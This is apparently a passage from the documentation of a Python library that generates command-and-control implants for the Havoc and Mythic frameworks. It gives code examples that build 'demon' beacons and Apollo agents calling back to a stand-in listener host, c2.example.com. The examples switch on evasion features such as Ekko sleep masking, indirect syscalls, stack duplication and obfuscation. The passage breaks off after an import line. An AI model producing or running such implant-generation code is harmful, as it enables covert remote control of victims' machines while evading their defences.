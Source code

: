 #### Havoc

```python
from c2_adapters import generate_havoc_demon
from c2_adapters.config import HavocConfig

# Method 1: Simple
result = generate_havoc_demon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    sleep_technique="Ekko",
    indirect_syscalls=True,
    stack_duplication=True,
    techniques=["NOCTIS-T124"],
    obfuscate=True
)

# Method 2: With config object
config = HavocConfig(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    sleep_technique="Ekko",
    sleep_mask=True,
    indirect_syscalls=True,
    stack_duplication=True
)

from c2_adapters.havoc_adapter import HavocAdapter
adapter = HavocAdapter(config)
result = adapter.generate_beacon(
    techniques=["NOCTIS-T124"],
    obfuscate=True
)
```

#### Mythic

```python
from c2_adapters import generate_mythic_agent
from c2_adapters.config import MythicConfig

# Method 1: Simple
result = generate_mythic_agent(
    listener_host="c2.example.com",
    listener_port=80,
    agent_type="apollo",
    c2_profile="http",
    api_token="your_api_token",
    techniques=["NOCTIS-T124"],
    obfuscate=True
)

# Method 2: With config object
config = MythicConfig(
    listener_host="c2.example.com",
    listener_port=80,
    protocol="http",
    payload_type="apollo",
    c2_profile="http",
    api_key="your_api_token"
)

from c2_adapters.mythic_adapter import MythicAdapter
```